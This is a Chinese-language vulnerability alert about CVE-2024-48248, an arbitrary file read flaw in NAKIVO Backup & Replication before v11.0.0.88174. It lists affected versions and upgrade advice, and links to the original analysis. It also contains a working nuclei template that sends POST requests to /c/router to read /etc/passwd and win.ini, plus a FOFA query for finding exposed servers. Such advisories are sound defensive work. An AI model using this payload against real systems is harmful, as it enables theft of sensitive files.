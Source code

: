#  【漏洞预警】NAKIVO Backup & Replication任意文件读取漏洞(CVE-2024-48248)   
原创 PokerSec  PokerSec   2025-02-27 05:52  
  
**先关注，不迷路**  
> 简单的生活是幸福的关键，减少欲望和复杂性。 ——《纳瓦尔宝典》  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
NAKIVO Backup & Replication 是一款快速、经济实惠且一流的备份和灾难恢复解决方案，适用于 VMware vSphere、Microsoft Hyper-V、Nutanix AHV、Amazon EC2、Windows/Linux 和 Microsoft 365 环境。备份服务器可以安装在 Windows、Linux 和 NAS 操作系统上，尤其适合中小企业市场。  
NAKIVO Backup & Replication任意文件读取漏洞，攻击者可利用该漏洞获取系统敏感文件。  
## 影响范围  
  
 NAKIVO Backup & Replication < v11.0.0.88174  
## 漏洞编号  
  
CVE-2024-48248  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJEq4FKiaZYxQwYMib72MyAr2wDqeKtVqbCZ1Q9HLP9YjEFOwHBDTD2sIOt0xMuQQF0aX2EUgGrbf1Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJEq4FKiaZYxQwYMib72MyAr2R6FicUV0PTHHMsegS4PNtHeeWZdMJnU7liaYDAh2baHCxEq5OXbK8S7A/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞分析  
```
https://labs.watchtowr.com/the-best-security-is-when-we-all-agree-to-keep-everything-secret-except-the-secrets-nakivo-backup-replication-cve-2024-48248/
```  
## 漏洞来源  
```
https://github.com/watchtowrlabs/nakivo-arbitrary-file-read-poc-CVE-2024-48248/blob/main/README.md
```  
## nuclei脚本  
```
id: nakivo-arbitrary-CVE-2024-48248-fileread

info:
  name: nakivo-arbitrary-CVE-2024-48248-fileread
  author: PokerSec
  severity: high
  metadata:
    fofa-search: app="NAKIVO-Backup-Replication"

requests:
  - raw:
      - |-
        POST /c/router HTTP/1.1
        Host: {{Hostname}}
        Connection: keep-alive
        Content-type: application/json

        {"action": "STPreLoadManagement", "data": ["/etc/passwd"], "method": "getImageByPath", "sid": "", "tid": "watchTowr", "type": "watchTowr"}
  - raw:
      - |-
        POST /c/router HTTP/1.1
        Host: {{Hostname}}
        Connection: keep-alive
        Content-type: application/json

        {"action": "STPreLoadManagement", "data": ["C:/windows/win.ini"], "method": "getImageByPath", "sid": "", "tid": "watchTowr", "type": "watchTowr"}

    stop-at-first-match: true
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"type":"rpc"'
          - 'STPreLoadManagement'
          - '"data":['
        condition: and
      - type: status
        status:
          - 200
    extractors:
      - type: json 
        part: body
        name: user
        json:
          - '.data.[]'
```  
##   
## 修复意见  
  
目前官方已发布安全更新，建议用户尽快升级至最新版本：  
  
https://www.nakivo.com/resources/download/trial-download/download/  
  
  
  
如有侵权，请及时联系删除。  
  
  
